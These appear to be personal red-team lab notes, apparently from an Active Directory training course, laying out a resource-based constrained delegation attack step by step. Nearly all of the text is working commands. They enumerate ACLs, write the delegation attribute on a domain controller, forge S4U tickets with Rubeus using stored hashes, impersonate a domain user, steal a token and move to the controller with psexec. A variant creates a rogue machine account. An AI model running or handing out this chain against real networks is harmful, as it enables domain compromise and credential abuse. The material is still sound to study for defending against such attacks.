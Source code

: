 @We need two things:

- A user from a group that can modify msDS-AllowedToActOnBehalfOfOtherIdentity
- A SPN machine

# First we query domain computers and read their ACL

```bash
powerview
# (if SID is needed)powerpick Get-WmiObject Win32_UserAccount | Where-Object { $_.Name -eq "bfarmer" } | Select-Object Name, SID
powerpick Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }

ObjectDN               : CN=DC-2,OU=Domain Controllers,DC=dev,DC=cyberbotic,DC=io (on the DC)
ActiveDirectoryRights  : Self, WriteProperty # Looking at this one
ObjectAceType          : All (over all properties)
ObjectSID              : S-1-5-21-569305411-121244042-2357301523-1000 (SID of object that is allowed)

```

# Check which group this is (we will need a user from this group to perform this attack)

```bash
powerpick ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
DEV\Developers
powerpick Get-DomainGroupMember -Identity Developers
```

---

# We then use the SID of our compromised Computer and add it to msDS-AllowedToActOnBehalfOfOtherIdentity (No need admin access)

```bash
# Get SID
powerpick Get-DomainComputer -Identity wkstn-2 -Properties objectSid
objectsid
---------
S-1-5-21-569305411-121244042-2357301523-1109

# Convert the content to  binary format
powerpick $rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"; $rsdb = New-Object byte[] ($rsd.BinaryLength); $rsd.GetBinaryForm($rsdb, 0)

# Update the value
powerpick $rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"; $rsdb = New-Object byte[] ($rsd.BinaryLength); $rsd.GetBinaryForm($rsdb, 0); Get-DomainComputer -Identity "dc-2" | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity' = $rsdb} -Verbose

# Check it has been updated
powerpick Get-DomainComputer -Identity "dc-2" -Properties msDS-AllowedToActOnBehalfOfOtherIdentity
```

---

# Next we use the WKSTN-2$ account to perform s4u impersonation

```bash
# Get tickets
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

# Dump WKSTN-2$ ticket for krbtgt
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap
# Or ask for one if not present
rubeus asktgt /user:wkstn-2$ /rc4:b051a3b4bf0b62d5d4a784d3b38b873c /nowrap

# Use that ticket to impersonate a user
exeute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:WKSTN-2$ /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /ticket:doIFuD[...]5JTw== /nowrap

# Use the user tgs ticket for nlamb to start a process and store the token
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGcD[...]MuaW8=
steal_token 1234
jump psexec64 dc-2.dev.cyberbotic.io smb

# When done clear the changes
powerpick Get-DomainComputer -Identity dc-2 | Set-DomainObject -Clear msDS-AllowedToActOnBehalfOfOtherIdentity
powerpick Get-DomainComputer -Identity "dc-2" -Properties msDS-AllowedToActOnBehalfOfOtherIdentity
```

---

# In case we did not have access to an SPN, we can create our own machine (of course we still need to be a user of Developers)

```bash
# Check if we can create Computers
powerpick Get-DomainObject -Identity "DC=dev,DC=cyberbotic,DC=io" -Properties ms-DS-MachineAccountQuota

# Create a computer
execute-assembly C:\Tools\StandIn\StandIn\StandIn\bin\Release\StandIn.exe --computer EvilComputer --make

[?] Using DC    : dc-2.dev.cyberbotic.io
    |_ Domain   : dev.cyberbotic.io
    |_ DN       : CN=EvilComputer,CN=Computers,DC=dev,DC=cyberbotic,DC=io
    |_ Password : oIrpupAtF1YCXaw

# Calculate hash with computer password (and save it to ask for tickets)
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe hash /password:oIrpupAtF1YCXaw /user:EvilComputer$ /domain:dev.cyberbotic.io

# Get EvilComputer SID
powerpick Get-DomainComputer -Identity EvilComputer -Properties objectSid
```

powerpick $rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"; $rsdb = New-Object byte[] ($rsd.BinaryLength); $rsd.GetBinaryForm($rsdb, 0)
powerpick $rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"; $rsdb = New-Object byte[] ($rsd.BinaryLength); $rsd.GetBinaryForm($rsdb, 0); Get-DomainComputer -Identity "dc-2" | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity' = $rsdb} -Verbose

```bash
# Use the hash to ask for a tgt
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:EvilComputer$ /aes256:7A79DCC14E6508DA9536CD949D857B54AE4E119162A865C40B3FFD46059F7044 /nowrap
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:EvilComputer$ /rc4:808948C17F556CCDB47740C3630B9E9B /nowrap

# Use that ticket for s4u to impersonate a user

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:EvilComputer$ /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /ticket:doIFuD[...]5JTw== /nowrap

# Create a process with the received ticket

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGcD[...]MuaW8=

# Steal token

steal_token 4092
jump psexec64 dc-2.dev.cyberbotic.io smb
ls \\dc-2.dev.cyberbotic.io\c$

```

# Clean up

```bash
powerpick Remove-ADComputer -Identity "EvilComputer" -Confirm:$false

```
